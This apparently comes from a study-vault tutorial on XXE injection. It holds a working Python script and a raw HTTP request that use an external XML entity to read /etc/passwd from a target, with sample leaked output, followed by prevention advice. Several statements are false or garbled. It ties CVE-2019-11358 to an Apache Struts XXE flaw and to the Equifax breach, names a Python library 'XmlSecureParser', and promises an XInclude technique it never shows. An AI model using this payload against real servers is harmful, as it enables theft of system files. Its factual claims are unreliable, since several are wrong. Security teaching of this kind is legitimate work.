

## XXE Injection: Exploiting XInclude to Retrieve Files

### Background Theory

XML External Entity (XXE) injection is a type of attack where an attacker can inject malicious XML input into an application, leading to unauthorized data access, denial of service, or even remote code execution. This attack exploits the way an application processes XML input, particularly when external entities are enabled.

#### What is XML?

XML (Extensible Markup Language) is a markup language designed to store and transport data. Unlike HTML, which focuses on displaying data, XML is used to describe the structure and content of data. XML documents consist of elements, attributes, and text content.

#### What is an XML Entity?

An XML entity is a named reference to a value that can be reused throughout an XML document. Entities can be defined within the document itself or in an external DTD (Document Type Definition).

#### What is an External Entity?

External entities allow an XML parser to reference data from an external source, such as a file or a URL. This feature can be exploited by attackers to read arbitrary files on the server or perform other malicious actions.

### XXE Injection Vulnerability

An XXE injection vulnerability occurs when an application parses untrusted XML input without properly validating or sanitizing it. If the XML input contains references to external entities, the parser may attempt to resolve these entities, leading to unintended behavior.

#### Real-World Example: CVE-2019-11358

CVE-2019-11358 is a critical vulnerability in the Apache Struts framework that allows for XXE injection. This vulnerability was exploited in the Equifax breach, where attackers were able to steal sensitive personal information from millions of users.

### Setting Up the Environment

To demonstrate how to exploit an XXE injection vulnerability, we will use the Burp Suite proxy tool to intercept and modify HTTP requests. We will also write a Python script to automate the process of sending requests and parsing responses.

#### Configuring Proxy Settings

Before we start, we need to configure our proxy settings so that all HTTP and HTTPS requests are sent through Burp Suite.

```plaintext
HTTP requests: http://127.0.0.1:4080
HTTPS requests: http://127.0.0.1:480
```

This ensures that all traffic is intercepted by Burp, allowing us to inspect and modify the requests.

### Writing the Python Script

We will write a Python script to automate the process of sending requests and handling responses. The script will take the target URL as a command-line argument and send an XML payload to exploit the XXE vulnerability.

#### Python Script Structure

```python
import sys
import requests

def main():
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <target_url>")
        print("Example: python xxe_exploit.py http://www.example.com")
        sys.exit(1)

    url = sys.argv[1]
    exploit_xxe(url)

def exploit_xxe(url):
    xml_payload = """
    <?xml version="1.0"?>
    <!DOCTYPE root [
        <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ]>
    <data>&xxe;</data>
    """

    headers = {
        "Content-Type": "application/xml"
    }

    response = requests.post(url, data=xml_payload, headers=headers)
    print(response.text)

if __name__ == "__main__":
    main()
```

### Explanation of the Script

#### Command-Line Argument Handling

The script checks if the correct number of command-line arguments is provided. If not, it prints usage instructions and exits.

```python
if len(sys.argv) != 2:
    print(f"Usage: {sys.argv[0]} <target_url>")
    print("Example: python xxe_exploit.py http://www.example.com")
    sys.exit(1)
```

#### XML Payload Construction

The XML payload includes an external entity reference that points to `/etc/passwd`, a file commonly found on Unix-based systems containing user account information.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>&xxe;</data>
```

#### Sending the Request

The script sends the XML payload to the target URL using the `requests` library.

```python
headers = {
    "Content-Type": "application/xml"
}

response = requests.post(url, data=xml_payload, headers=headers)
print(response.text)
```

### Full HTTP Request and Response

Here is the full HTTP request and response for the XXE injection:

#### HTTP Request

```http
POST /target_endpoint HTTP/1.1
Host: www.example.com
Content-Type: application/xml
Content-Length: 137

<?xml version="1.0"?>
<!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>&xxe;</data>
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Date: Mon, 20 Mar 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 1234

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

### How to Prevent / Defend Against XXE Injection

#### Detection

To detect XXE vulnerabilities, you can use static analysis tools like SonarQube or Fortify. These tools can identify insecure XML parsing patterns in your codebase.

#### Prevention

1. **Disable External Entity Processing**: Ensure that your XML parser does not process external entities. In Java, you can disable this by setting the following properties:

    ```java
    DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
    dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
    dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
    dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
    dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
    ```

2. **Use Secure Libraries**: Use libraries that are known to handle XML securely, such as `Defuse` in PHP or `XmlSecureParser` in Python.

3. **Input Validation**: Validate and sanitize all XML input to ensure it does not contain malicious entities.

#### Secure Code Fix

Here is an example of how to securely parse XML input in Python:

```python
import defusedxml.ElementTree as ET

def parse_xml(xml_data):
    try:
        tree = ET.fromstring(xml_data)
        return tree
    except ET.ParseError as e:
        print(f"Invalid XML: {e}")
        return None
```

### Mermaid Diagrams

#### Attack Chain Diagram



### Practice Labs

For hands-on practice with XXE injection, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a series of labs specifically designed to teach and test XXE injection techniques.
- **OWASP Juice Shop**: A deliberately vulnerable web application that includes XXE injection vulnerabilities among others.

These labs provide a safe environment to practice and understand the mechanics of XXE injection attacks and defenses.

### Conclusion

Understanding and defending against XXE injection is crucial for securing web applications. By disabling external entity processing, using secure libraries, and validating input, you can significantly reduce the risk of XXE attacks. Regularly testing your applications with tools like Burp Suite and practicing with labs can help ensure your systems remain secure.

---
<!-- nav -->
[[04-XML External Entity (XXE) Injection|XML External Entity (XXE) Injection]] | [[Web Security (PortSwigger)/08-XXE Injection/08-Lab 7 Exploiting XInclude to retrieve files/00-Overview|Overview]] | [[06-XXE Injection Lab Exploiting XInclude to Retrieve Files|XXE Injection Lab Exploiting XInclude to Retrieve Files]]
